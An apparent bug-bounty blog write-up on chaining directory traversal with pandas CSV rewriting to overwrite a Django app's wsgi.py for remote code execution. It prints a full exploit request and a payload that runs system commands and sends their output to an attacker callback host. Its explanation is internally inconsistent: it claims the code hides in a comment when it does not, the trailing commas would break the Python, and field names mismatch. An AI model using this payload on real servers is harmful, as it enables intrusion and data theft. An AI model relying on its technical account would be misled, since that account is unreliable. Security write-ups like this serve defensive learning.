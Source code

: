 ```yaml
---

title: "How I Chained Directory Traversal and CSV Parser Abuse for RCE in a Django App"
date: 2025-06-30
categories: [security, django, rce]
tags: [bugbounty, csv, traversal, django, rce]

---
```


While testing a web application as part of a bug bounty program, I uncovered a critical RCE vulnerability by chaining directory traversal with a subtle CSV parsing abuse. The exploit chain involved a combination of directory traversal and subtle abuse of how the application used the `pandas` CSV parser, ultimately allowing me to overwrite the `wsgi.py` file and execute arbitrary code server-side.

## Application Behavior

The vulnerable endpoint allowed users to upload CSV files, process them using `pandas`, and save the result to disk. The target function looked something like this:

```python

        username = request.data.get("username")
        upload_file = request.FILES.get("csv_file")
        temp_path = f"/tmp/{upload_file.name}"
        with open(temp_path, "wb") as out_file:
            for chunk in upload_file.chunks():
                out_file.write(chunk)

        # Parse uploaded CSV
        df = pandas.read_csv(temp_path)

        # Determine output path
        base_dir = Path(__file__).resolve().parent.parent
        save_dir = os.path.join(base_dir, "data_store", username)
        os.makedirs(save_dir, exist_ok=True)

        final_path = os.path.join(save_dir, upload_file.name)
        if os.path.exists(final_path):
            os.remove(final_path)
        df.to_csv(final_path, index=False, encoding="utf-8")
        return Response({"status": "success"}, status=200)
    except Exception as e:
        return Response({"error": str(e)}, status=500)

```

There are two key observations here:

- The `username` field is directly used in the filesystem path without sanitization.
- The `pandas.read_csv()` and `df.to_csv()` roundtrip occurs before saving the file.

This setup made it possible to craft a payload that hijacks the file write location and executes code on the system.

## From Path Traversal to File Overwrite

The `username` field was trusted and used to construct a path like `data_store/<username>/file.csv`. I simply submitted a value like:

```
../../../../../../app/backend/backend/

```

As a result, the application wrote my uploaded file to:

```
/app/backend/backend/file.csv
```

## Crafting a Valid Payload Through CSV

The hard part was getting code into `wsgi.py` without triggering a syntax error. The app parses the file with `pandas.read_csv()` and then re-serializes it with `to_csv()`. This means my uploaded file would be rewritten before it landed in `wsgi.py`.

Here’s what `pandas.to_csv()` does:

- Writes headers by default.
- Pads rows with commas to match the maximum column count.
- Writes each cell value as a string, potentially quoting it.

So I needed my payload to:

1. Avoid being mangled during CSV parsing.
2. Still be valid Python after extra commas were appended.

The trick was to put my malicious line in a comment using `#`. This didn’t hide it from pandas—it parsed it like any other row—but ensured that any trailing junk added by `to_csv()` would be ignored by Python when the file ran. 
Python ignores everything after a `#` on a line, so even if `pandas.to_csv()` appends extra commas or whitespace, they’re treated as part of the comment and discarded by the interpreter.

Here’s the actual payload line embedded in a seemingly innocent CSV:

```python
# VALID CSV DATA
import os,requests;from django.core.wsgi import get_wsgi_application;os.environ.setdefault('DJANGO_SETTINGS_MODULE','backend.settings');r=os.popen('whoami&&id&&hostname').read();requests.post('<http://attacker.burpcollaborator.net>',data={'r':r});application = get_wsgi_application();,,,,,

```

After going through pandas’ processing, it still looked like a comment line to Python, with enough real logic inside to get code execution and reassign `application`, satisfying Django’s expectations.

## Picking the Right Target for Code Execution

At this stage, the file overwrite was working — but to escalate it to RCE, I needed to identify a file that the application would **automatically load or execute after modification**, since I had **no direct ability to invoke the overwritten file manually**. This meant finding a server-side script that Django would re-import or re-run implicitly on access. That led me to `wsgi.py`.

## Why wsgi.py?

From the [WSGI specification](https://wsgi.readthedocs.io/en/latest/), the `wsgi.py` file exists to expose a callable named `application` that acts as the entry point for the web server to interact with a Python app. In Django, this is typically done using:

```python
from django.core.wsgi import get_wsgi_application
application = get_wsgi_application()

```

During testing, a verbose error message gave away the project’s file structure. The traceback included a path like:

```
/app/backend/backend/
```

This nested layout is exactly what you get when a Django app is created using `django-admin startproject backend` — where the outer `backend/` is the project root and the inner one holds settings, `wsgi.py`, and other core files.

That made `wsgi.py` the perfect target. I couldn’t *run* arbitrary files, only overwrite them — so I needed something the server would execute on its own. Django’s development server watches `wsgi.py` for changes and automatically reloads it when modified. That meant just touching the file was enough to trigger execution. By placing my payload inside a Python comment and ending with a clean `application = get_wsgi_application()` line, I preserved the structure Django expected while slipping in remote code execution.

## Final Exploit Request

Here’s the trimmed HTTP request used to achieve the overwrite:

```http

POST /api/endpoint HTTP/1.1
Host: target.url
Content-Type: multipart/form-data; boundary=---------------------------boundary
Cookie: session=...

-----------------------------boundary
Content-Disposition: form-data; name="fleet_csv"; filename="wsgi.py"
Content-Type: text/csv

# VALID CSV DATA
import os,requests;from django.core.wsgi import get_wsgi_application;os.environ.setdefault('DJANGO_SETTINGS_MODULE','backend.settings');r=os.popen('whoami&&id&&hostname').read();requests.post('<http://attacker.burpcollaborator.net>',data={'r':r});application = get_wsgi_application();,,,,,

-----------------------------boundary
Content-Disposition: form-data; name="report_date"

2025-01-01
-----------------------------boundary
Content-Disposition: form-data; name="username"

../../../../../../app/backend/backend/
-----------------------------boundary--

```

The response confirmed success:

```json
{"status": "success"}
```

Seconds later, my server received the callback with command output.

## Conclusion

This exploit was possible due to:

- Unsanitized use of user input in filesystem paths.
- Unsafe file parsing and rewriting with `pandas`.
- Django’s auto-reloading behavior in debug mode.

By combining these behaviors, I was able to go from a basic file upload to full RCE on the server. The real lesson here is that even something as seemingly harmless as CSV parsing can become dangerous in the wrong context—especially when paired with filesystem access and auto-executing server files.